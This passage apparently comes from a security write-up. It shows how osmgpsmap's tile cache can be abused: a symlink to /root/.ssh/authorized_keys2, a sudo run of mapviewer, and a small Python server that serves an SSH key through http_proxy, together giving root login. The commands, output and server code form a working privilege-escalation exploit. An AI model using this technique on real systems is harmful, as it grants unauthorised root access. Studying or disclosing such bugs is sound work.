 ```
./test_cache_dir/osmgpsmap/9c5a9cd9c43537d33143b560fa1bb68d/3/2/2.jpg
./test_cache_dir/osmgpsmap/9c5a9cd9c43537d33143b560fa1bb68d/3/2/1.jpg
./test_cache_dir/osmgpsmap/9c5a9cd9c43537d33143b560fa1bb68d/3/4/2.jpg
./test_cache_dir/osmgpsmap/9c5a9cd9c43537d33143b560fa1bb68d/3/4/1.jpg
```


Now we control both where the files get written and their content (through http_proxy). Would the symlink trick work here as well?

```
$ rm -rf ./test_cache_dir
$ mkdir -p ./test_cache_dir/osmgpsmap/9c5a9cd9c43537d33143b560fa1bb68d/3/3/
$ chmod 777 -R ./test_cache_dir/
$ ln -s /root/.ssh/authorized_keys2 `pwd`/test_cache_dir/osmgpsmap/9c5a9cd9c43537d33143b560fa1bb68d/3/3/2.jpg
$ ls -al ./test_cache_dir/osmgpsmap/9c5a9cd9c43537d33143b560fa1bb68d/3/3/2.jpg
lrwxrwxrwx 1 user1 user1 27 Jan 29 13:23 ./test_cache_dir/osmgpsmap/9c5a9cd9c43537d33143b560fa1bb68d/3/3/2.jpg -> /root/.ssh/authorized_keys2
$ ls -al /root/.ssh/authorized_keys2
ls: cannot access '/root/.ssh/authorized_keys2': Permission denied
$ sudo ls -al /root/.ssh/authorized_keys2
ls: cannot access '/root/.ssh/authorized_keys2': No such file or directory




$ XDG_CACHE_HOME=./test_cache_dir sudo -E ./mapviewer
(mapviewer:519182): OsmGpsMap-WARNING **: 13:26:33.489: Error getting missing tile
(mapviewer:519182): OsmGpsMap-WARNING **: 13:26:33.501: Error getting missing tile
(mapviewer:519182): OsmGpsMap-WARNING **: 13:26:33.502: Error getting missing tile

$ sudo ls -al /root/.ssh/authorized_keys2
-rw-r--r-- 1 root root 4139 Jan 29 13:26 /root/.ssh/authorized_keys2

$ sudo file /root/.ssh/authorized_keys2
/root/.ssh/authorized_keys2: PNG image data, 256 x 256, 8-bit colormap, non-interlaced
```

All we need now is a method to serve arbitrary content in order to add our ssh key.


```python
import http.server
import socketserver
from urllib.parse import urlparse
from urllib.parse import parse_qs
class MyHttpRequestHandler(http.server.SimpleHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-type", "text/html")
        self.end_headers()
        html = f"ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIDCf8bM2h6FZNN7qhmCNyhleRhV7u2HKC7NUsGxMCMCo\n"
        self.wfile.write(bytes(html, "utf8"))
        return
handler_object = MyHttpRequestHandler
PORT = 8000
my_server = socketserver.TCPServer(("127.0.0.1", PORT), handler_object)
my_server.serve_forever()
```
